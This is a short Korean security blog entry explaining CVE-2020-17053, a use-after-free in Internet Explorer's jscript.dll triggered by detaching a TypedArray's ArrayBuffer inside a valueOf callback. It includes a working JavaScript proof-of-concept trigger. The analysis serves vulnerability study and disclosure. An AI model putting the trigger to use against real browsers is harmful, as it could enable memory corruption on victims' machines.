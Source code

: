 ```yaml
---
title: "[하루한줄] CVE-2020-17053: Internet Explorer UAF 취약점"
author: idioth
tags: [idioth, cve, use after free, internet explorer]
categories: [1day1line]
date: 2020-11-19 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[CVE-2020-17053: Use-After-Free IE Vulnerability](https://www.trendmicro.com/en_us/research/20/k/cve-2020-17053-use-after-free-ie-vulnerability.html)

## Target

- Internet Explorer



## Explain

Internet Explorer에서 neutering ArrayBuffer로 인한 use after free 취약점이 발견되었습니다. 해당 취약점은 CVE-2020-1380과 비슷한 취약점이지만 JIT 엔진 없이 트리거할 수 있습니다.

JIT 엔진을 사용하지 않고 item을 TypedArray로 변환할 때 *jscript.dll*은 interpreter에서 다음과 같은 작업을 수행합니다.

1. `Js::JavascriptConversion::ToNumber()` 호출
2. TypedArray의 ArrayBuffer가 detach 되었는지 확인
3. 변환할 element의 index와 TypedArray의 길이 비교
4. `Js::JavascriptConversion::ToNumber()`를 다시 호출하여 ArrayBuffer로 값 설정

`Js::JavascriptConversion::ToNumber()`의 첫 번째 호출에서 해커는 callback 함수를 통해 TypedArray의 ArrayBuffer를 free 할 수 있고 uaf를 발생시킬 수 있습니다. 이것을 막기 위해 첫 번째 호출 후 ArrayBuffer가 detach 되었는지 확인하여 user code callback에서 메모리가 free 되는 것을 방지합니다. 하지만 두 번째 호출에서는 별다른 검사를 하지 않기 때문에 이를 악용하여 uaf를 발생시킬 수 있습니다.

<details><summary>POC Code</summary>
<p>
```js
var arr = new Float32Array(0x100);
var flag = 0;
function pwn(index, value) {
    arr[index] = value;
}
var obj = {};
obj.valueOf = function() {
    if(flag == 1) {
        worker = new Worker("");
        worker.onmessage = function() {};
        worker.postMessage(0, [arr.buffer]);
        worker.terminate();
        worker = null;
        var start = Date.now();
        while (Date.now() - start < 200) {}
        return 0x1337;
    }
    flag = 1;
};
pwn(0, obj);
```
</p>
</details>


두 번째 인자를 `obj`로 `pwn` 함수를 호출하면 item을 TypedArray로 변환할 때 `Js::JavascriptConversion::ToNumber()`가 호출되어 callback 함수가 두 번 호출됩니다. 첫 번째 호출에는 `flag == 0`이므로 ArrayBuffer가 neutering 되지 않지만 두 번째 호출에서 ArrayBuffer가 neutering 됩니다. 두 번째 호출에서는 ArrayBuffer가 detach 되었는지 검사하지 않으므로 uaf가 발생합니다.